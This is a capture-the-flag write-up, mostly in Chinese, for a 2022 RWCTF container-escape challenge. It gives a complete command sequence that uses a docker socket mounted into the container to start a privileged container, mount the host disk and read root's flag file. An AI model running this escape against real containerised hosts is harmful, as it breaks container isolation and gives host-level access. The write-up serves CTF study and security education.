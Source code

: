 ## About

这是2022年第三届RWCTF体验赛的容器逃逸题目, 题目作者是 [zh-explorer][1]

## Description of the challenge

Do you want to be a docker escaper? So you need to be patient. It takes minutes for me to get a docker ready for you. I can’t make it faster without kvm, but I think you can do it locally.
from: SpaceSkyNet

## Weriteup

仔细观察user-data中的docker启动命令

```bash
docker run -i -m 128m -v /var/run/docker.sock:/s
```

使用-v 将docker daemon socket映射到了容器中, 因此我们看可以通过 socket 控制容器外的docker, 直接使用-v映射flag或者启动特权容器逃逸即可

```bash
sed -i "s/http:\/\/archive.ubuntu.com/http:\/\/mirrors.aliyun.com/g" /etc/apt/sources.list
sed -i "s/http:\/\/security.ubuntu.com/http:\/\/mirrors.aliyun.com/g" /etc/apt/sources.list
apt update
DEBIAN_FRONTEND="noninteractive" apt-get -y install docker.io
docker -H unix:///s run -i --privileged ubuntu bash
mkdir /tmp/a
mount /dev/sda1 /tmp/a
chmod 777 /tmp/a/root/flag
cat /tmp/a/root/flag
```

## Deploy

题目部署脚本相关可以参考 [deploy][1] 文件夹

## Reference Link

[1]: https://github.com/zh-explorer
[2]: ./deploy	"题目部署脚本"


